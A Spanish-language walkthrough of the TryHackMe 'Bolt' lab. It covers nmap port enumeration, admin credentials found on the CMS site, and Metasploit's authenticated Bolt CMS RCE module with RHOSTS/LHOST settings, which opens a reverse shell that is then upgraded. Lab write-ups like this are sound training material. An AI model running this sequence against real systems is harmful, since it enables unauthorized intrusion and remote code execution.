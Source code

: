 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - Linux
  - HTTP
  - Bolt
  - CMS
  - MSF
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
- [[#Explotación|Explotación]]
	- [[#Explotación#MSFconsole|MSFconsole]]

---
# Resolviendo la máquina Bolt

>En esta publicación, comparto cómo resolví la máquina **Bolt** de [TryHackMe](https://tryhackme.com/room/bolt).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 10.10.210.91`

![[Pasted image 20250724112359.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.210.91 -oG allPorts`

![[Pasted image 20250724112447.png]]

`nmap -p22,80,8000 -sCV 10.10.210.91 -oN targeted`

![[Pasted image 20250724112504.png]]
![[Pasted image 20250724112529.png]]
![[Pasted image 20250724112548.png]]
### HTTP

`http://10.10.158.108:8000/`

![[Pasted image 20250724112638.png]]
![[Pasted image 20250724112657.png]]

Se encuentra el usuario(`bolt`) y la contraseña (`boltadmin123`).

Se realiza una búsqueda para ver donde se encuentra el directorio de inicio de sesión del **Bolt CMS**, se encuentra en la ruta: `http://10.10.158.108:8000/bolt`.

![[Pasted image 20250724113716.png]]

![[Pasted image 20250724113744.png]]

---
## Explotación
### MSFconsole

Se realiza una búsqueda en *MSFconsole*. Se encuentra el exploit (`exploit/unix/webapp/bolt_authenticated_rce`) que permite ejecutar **RCE (Remote Code Execution)**.

```
search Bolt CMS
use 0 | use exploit/unix/webapp/bolt_authenticated_rce
show options
set RHOSTS 10.10.210.91
set LHOST 10.8.184.124
set USERNAME bolt
set PASSWORD boltadmin123
check
exploit
```

![[Pasted image 20250724113447.png]]
![[Pasted image 20250724113500.png]]

`background`

`sessions -u 1`

`sessions 2`

Se accede al directorio: `/home`.

`cd /home`

`ls`

![[Pasted image 20250724113624.png]]

---
